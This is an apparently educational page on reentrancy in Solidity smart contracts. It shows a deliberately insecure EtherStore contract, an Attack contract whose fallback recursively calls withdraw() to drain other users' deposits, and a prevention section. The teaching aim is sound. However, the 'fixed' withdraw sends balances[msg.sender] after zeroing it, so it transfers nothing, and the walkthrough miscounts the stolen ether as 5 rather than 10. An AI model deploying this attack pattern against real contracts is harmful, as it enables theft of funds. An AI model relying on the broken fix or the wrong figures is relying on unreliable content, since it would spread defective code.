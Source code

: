 ## Reentrancy

Reentrancy is an attack that can occur when a bug in a contract may allow a malicious contract to reenter the contract unexpectedly during execution of the original function. This can be used to drain funds from a smart contract if used maliciously. Reentrancy is likely the single most impactful vulnerability in terms of total loss of funds by smart contract hacks, and should be considered accordingly.

[List of reentrancy attacks](https://github.com/pcaversaccio/reentrancy-attacks)

### External calls

Reentrancy can be executed by the availability of an external call to an attacker controlled contract. External calls allow for the callee to execute arbitrary code. The existence of an external call may not always be obvious, so it's important to be aware of any way in which an external call may be executed in your smart contracts.

##### ETH transfers

When you want to send Ether from your own smart contract to another smart contract, you trigger the `receive()` or `fallback()` functions on the other smart contract, as implemented in that contract.

An attacker can write any arbitrary logic into the `fallback()` method, such that anytime this contract is triggered by another one when transferring Ether, the `fallback()` logic is executed.


### Single function reentrancy

A single function reentrancy attack occurs when a vulnerable function is the same function that an attacker is trying to recursively call.

```solidity

// INSECURE
// DO NOT USE IN PRODUCTION. ONLY MEANT TO SERVE AS AN EXAMPLE

/** 
 * @title EtherStore
 * @dev  Etherstore is a contract where you can deposit and withdraw ETH.
*/

contract EtherStore {

    // The below mapping(balances), correlates an address to a number, i.e this address has this number of value.

    mapping(address => uint256) public balances;

    /**
     * @dev A function that allows anyone(public) to send(payable) ether to it
     * @dev It increases the balances of whoever called this function(msg.sender) to the value attached when calling this function
     * @dev msg.value is the value you attach when calling this function. 
     * @dev Add to the caller's existing balance, i.e balances[msg.sender] the value attached when the caller calls this function
    */
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    /**
     * @dev A function that allows for withdrawals of funds
     * @dev Checks the balance of the the caller and ensures that the balance is greater than 0
     * @dev Calls either the `receive()` or `fallback()` of the caller in an attempt to send it ether
     * @dev ("") is calling the `receive()` or `fallback()`
     * @dev {value: bal} attempts to transfer caller's entire balance, i.e uint256 = bal = balances[msg.sender] to himself
     * @dev This is fine until the caller, msg.sender is another smart contract. Remember the blockchain is composable, i.e
     *   you can build on top of existing contracts by calling any of their functions in those contracts
     * 
     * @dev Requires sent to return true or it throws an error
     * @dev Reduces caller's balances to 0 as all his balances have been assumed to have been sent to him.
    */

    function withdraw() external {
        uint256 bal = balances[msg.sender];
        require(bal > 0, "You balance isn't greater than 0");

        (bool sent,) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

```solidity
contract Attack {

    /**
     * @dev Attacker imports contract EtherStore. 
     * @dev etherStore is an instance of EtherStore and any interactions to contract EtherStore in attacker contract 
    *   happens via etherStore
    */
    EtherStore public etherStore;
    uint256 public constant AMOUNT = 1 ether;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when contract EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= AMOUNT) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= AMOUNT);
        etherStore.deposit{value: AMOUNT}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```

The above setup contracts showcase how re-entrancy attacks occur

1. A developer deploys contract EtherStore to the blockchain
2. Alice and Bob deposit 5 ether each into contract EtherStore by calling `deposit()` function. EtherStore now has 10 ether
3. An attacker, Eve deploys contract Attack with address of EtherStore in the constructor
4. The attacker calls `Attack.attack()` sending 1 ether. Eve gets 11 Ether back (5 Ether stolen from Alice and Bob, plus 1 Ether sent from her own contract `Attack`).

## What happened?

Attack was able to call `EtherStore.withdraw()` multiple times before `EtherStore.withdraw()` finished executing, i.e Eve was able to re-enter back into function `withdraw()` in contract `EtherStore` before it finished executing!



# Reentrancy prevention

The simplest reentrancy prevention mechanism is to use a ReentrancyGuard, which allows you to add a modifier, e.g. nonReentrant, to functions which may otherwise be vulnerable. 

For optimum security, use the checks-effects-interactions pattern. This is a simple rule of thumb for ordering smart contract functions.

The function should begin with checks, e.g. require and assert statements.

Next, the effects of the contract should be performed, i.e. state modifications.

Finally, we can perform interactions with other smart contracts, e.g. external function calls.

This structure is effective against reentrancy because when an attacker reenters the function, the state changes have already been made. For example:

```solidity
function withdraw() external {
  uint256 bal = balances[msg.sender];
  balances[msg.sender] = 0;
  (bool sent,) = msg.sender.call{value: balances[msg.sender]}("");
  require(sent);
}
```

Since the balance is set to 0 before any interactions are performed, if the contract is called recursively, there is nothing to send after the first transaction.
